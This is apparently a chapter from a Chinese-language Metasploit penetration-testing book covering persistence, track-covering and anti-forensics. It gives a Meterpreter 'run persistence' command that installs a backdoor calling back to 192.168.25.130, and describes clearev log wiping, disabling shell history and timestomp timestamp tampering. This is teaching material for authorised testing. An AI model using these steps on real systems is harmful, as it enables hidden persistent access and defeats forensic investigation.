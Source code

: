 # 维持访问和清除痕迹

在上一章中，我们学习了特权升级概念以及实际的升级技术。

在本章中，我们将学习如何在被妥协的系统上保持访问并使用反取证技术清除痕迹。我们将学习如何在被妥协的系统上建立持久后门，并使用 Metasploit 的反取证能力来清除渗透痕迹。

在本章中，我们将涵盖以下主题：

+   维持访问

+   清除痕迹和路径

+   反取证

# 维持访问

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。假设你正在对一个目标进行渗透测试，并且已经努力通过 Metasploit 获得了远程系统访问。你希望在任务继续进行的几天内保持这种辛苦获得的访问。然而，在这段时间内，被妥协的系统是否会重新启动并没有保证。如果重新启动，你的访问将会丢失，你可能需要再次努力获得相同的访问权限。这正是我们希望在被妥协的系统中保持或持续访问的确切场景。

Metasploit 提供了一些出色的内置机制，可以帮助我们保持对被妥协系统的持久访问。第一步将是利用针对易受攻击的目标系统的合适漏洞，并获得 Meterpreter 访问，如下截图所示：

![](img/b2851627-c0a8-49fd-ae4a-d4bad9f6ab73.png)

一旦利用成功，我们就可以获得对远程系统的 Meterpreter 访问。Metasploit 中的 Meterpreter 提供了一个名为`persistence`的实用程序，它可以帮助我们在受损系统上安装一个永久后门。我们可以使用`run persistence -h`命令了解更多关于`persistence`实用程序的信息：

![](img/33782514-af5a-4d03-ba41-9d06880628bb.png)

现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

这个命令将执行`persistence`脚本并启动一个匹配的处理程序(`-A`)，将 Meterpreter 放在目标系统的`c:\\`位置(`-L c:\\`)，系统启动时自动启动监听器(`-X`)，每 60 秒检查一次连接(`60`)，在端口`443`上连接(`-p 443`)，并在 IP 地址`192.168.25.130`上回连到我们。

`persistence`脚本的执行输出如下：

![](img/56119311-b4c1-483d-b8a7-b8957aa3c1cb.png)

现在`persistence`脚本已成功安装在目标系统上，我们不需要担心重新启动。即使目标系统重新启动，无论是故意还是意外，`persistence`脚本都会自动重新连接到我们，再次给我们 Meterpreter 访问权限。

# 清除痕迹和路径

渗透测试由一系列复杂的任务对目标系统执行而成。执行这些任务会以多种方式影响目标系统。多个配置文件可能会被修改，许多审计记录可能会被记录在日志文件中，对于 Windows 系统，注册表可能会发生变化。所有这些变化可能帮助调查人员或蓝队成员追溯攻击向量。

完成渗透测试后，清除所有在妥协过程中使用的残留文件是很好的。但是，这需要与蓝队达成一致。清除所有痕迹的另一个目的可能是测试组织的事后响应方法。然而，现实世界的攻击者可能会简单地利用这一点来掩盖他们的痕迹并保持不被发现。

Metasploit 具有一些帮助清除痕迹的能力。首先，我们需要利用一个漏洞并给予 Meterpreter 对目标的访问：

![](img/b4b9c3e8-0a35-43c7-89a5-a005d39b34ca.png)

以下截图显示了我们目标系统上的应用程序事件日志：

![](img/859e6c25-02ed-4a4f-aa7f-836700e5be7c.png)

以下截图显示了我们目标系统上的`System`事件日志：

![](img/d874c0a5-b473-4d67-ac9a-08eb488805be.png)

现在我们已经给予 Meterpreter 对目标系统的访问权限，我们将使用`getsystem`命令将权限提升到管理员级别。Meterpreter 有一个名为`clearev`的实用程序，用于擦除目标系统上的审计记录。当我们执行`clearev`时，目标上的所有审计记录都被擦除：

![](img/d9af5879-b8c8-4663-a119-06756ff7c95e.png)

以下截图显示，由于`clearev`擦除了应用程序事件日志，因此没有应用程序事件日志：

![](img/43af6a3f-66f7-4d6c-97d7-9fb54a1229c4.png)

以下截图显示，由于`clearev`擦除了系统事件日志，因此没有系统事件日志：

![](img/584ee98d-d327-4501-a7c7-3527a8dfb78c.png)

同样，在具有 Linux 操作系统的目标上，我们可以做一些事情来清除我们的痕迹。Linux 终端维护命令历史记录，可以使用`history`命令查看：

![](img/a3565782-5d49-40e3-bc10-7d4be4436499.png)

在 Linux 系统（基于 Debian 的系统）中，负责控制命令历史记录的参数是`$HISTSIZE`。如果我们能够将其值设置为`0`，就不会存储任何命令历史记录：

![](img/d8ea765e-028f-4410-8cd5-3aefe4474b63.png)

# 反取证

在前一节中，我们看到渗透测试任务留下了多个痕迹。事后取证调查可以揭示有关妥协发生方式的许多信息。进行取证分析时的一个重要因素是时间戳。文件时间戳有助于重建可能发生的一系列活动。

Metasploit 提供了能够有效用于覆盖时间戳值并误导取证调查的功能。

首先，我们利用漏洞针对目标使用 Meterpreter 访问。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：

![](img/9eb1336c-08a4-4383-bef5-962afcf88a93.png)

现在，我们可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件相关的所有时间戳：

![](img/7c098fc8-9bb8-4442-98c3-046974762c61.png)

# 总结

在本章中，我们学习了各种技术来持久访问受损目标。我们还学习了清除受损系统痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将学习正确漏洞评分的重要性。
